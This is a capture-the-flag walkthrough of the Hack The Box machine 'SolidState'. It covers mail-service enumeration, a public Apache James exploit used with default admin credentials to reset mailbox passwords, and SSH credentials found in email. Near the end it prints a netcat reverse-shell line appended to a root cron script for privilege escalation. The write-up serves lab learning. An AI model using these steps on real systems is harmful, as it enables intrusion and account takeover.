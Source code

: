 # SolidState

Machine: [SolidState](https://app.hackthebox.com/machines/85)\
Difficulty: Medium\
Status: Retired



## Enumeration

What operating system is on this machine? Linux
What ports/services are on running on this machine?\ 
![Results!](screenshots/1.png)

What udp ports are open?\
![Results!](screenshots/2.png)

SMPT (25) - SMTP (Simple Mail Transfer Protocol) is the basic standard for sending email via the internet between mail servers. Applications like Apple Mail and Outlook use SMTP to send emails to mail servers, which subsequently relay them to other mail servers.\

POP3 (110) - Post Office Protocol (POP) is a type of computer networking and Internet standard protocol that extracts and retrieves email from a remote mail server for access by the host machine. POP is an application layer protocol in the OSI model that provides end users the ability to fetch and receive email.\

NNTP is an application-layer protocol used for transporting Usenet news articles between news servers. Client applications can also inquire, retrieve, and post articles.\


Given the ports/services that are open, I am guessing that this is some sort of mail server or it has something to do with a mail server.  


![Results!](screenshots/3.png)



I did see the web admin email being listed on the homepage. I am not sure if this will be of any importance, but I will note it down just in case.\
![Results!](screenshots/4.png)

Since smtp, pop3 and other services are open, I am going to see if there are any enumeration scripts within nmap that will help us.  To find the nmap scripts, just type this command 'ls -al /usr/share/nmap/scripts/ |grep -e "smtp" and it will output something like this if there are script available:\

![Results!](screenshots/5.png)

I did find a root user after running the below script. The other scripts did not return anything that I thought was important, so I will move on to enumerating pop3 and nntp.

![Results!](screenshots/6.png)


I ran the scripts that are available for pop3, and I did not get back any information of importance.
![Results!](screenshots/7.png)\
![Results!](screenshots/8.png)


Since we have a webserver running on port 80, lets use dirbuster to find any directories and files.
![Results!](screenshots/9.png)


In the dirbuster scan results, I did find a readme.txt file that you can see below. It looks like it might contain information that is important, but I am not sure yet.  It is using Creative Commons Attribution 3.0 Unported, so maybe this is vulnerable?

![Results!](screenshots/10.png)

## Exploitation

I went back through the version running with each of the services, and I did find this exploit: https://www.exploit-db.com/exploits/50347. I intially ran the exploit and it gave me a message saying that someone needed to login for it to work. At the time I did not have any users credentials, but in the exploit it does give the username/password for the James Apache Server. To log in we will use netcat. After logging in, we see that we can change the passwords of the users...this will allow us to login and view the users mail/inbox.

![Results!](screenshots/11.png)\


![Results!](screenshots/12.png)


After browsing through each user's mailbox, we see an email that was sent to Mindy that contains ssh credentials which will allow us to login.\
![Results!](screenshots/13.png)


### Flags
User:\
![Results!](screenshots/14.png)\

Root:\
For root access, I needed to escalate my priveleges to root. Initally I uploaded LinEnum and Linpeas to see if any misconfigurations or any vulnerabilites are found that would allow me to escalate my privileges to root, but neither LinEnum or Linpeas showed me any valuable information. I had to refer to a tutorial, and LinEnum is supposed to return information about world/global writable files.  The is a python script that is being run as part of a cron job...when it executes it will execute as root. Given that we have the permission to write to this file, we can append some code that will gives us a root shell the next time the cron job runs this script. I appended this line to the python script and setup a netcat listener, 'os.system(nc -e /bin/bash 10.10.14.4 5555)'. After a couple of minutes I had a new shell as root.



